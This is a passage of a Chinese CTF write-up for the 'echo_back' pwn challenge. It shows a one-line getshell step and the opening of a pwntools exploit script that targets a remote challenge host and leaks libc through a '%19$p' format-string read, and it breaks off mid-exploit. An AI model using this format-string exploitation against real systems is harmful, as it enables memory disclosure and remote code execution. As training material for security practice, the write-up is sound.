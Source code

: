 
### getshell

只需使main函数ret即可

```python
#get shell
	sla('>>', str(3))

```

### 完整exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'
#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "echo_back"
libFile  = "./libc.so.6"

remoteIp = "111.198.29.45"
remotePort = 54180

LOCAL = 1
LIBC  = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def eb(length, text):
	sl(text)

#--------------------------Exploit--------------------------
def exploit():

	# leaking libc base
	sla('>>', str(2))
	sla(':', str(7))
	p = '%19$p'
	sl(p)
	ru('0x')
```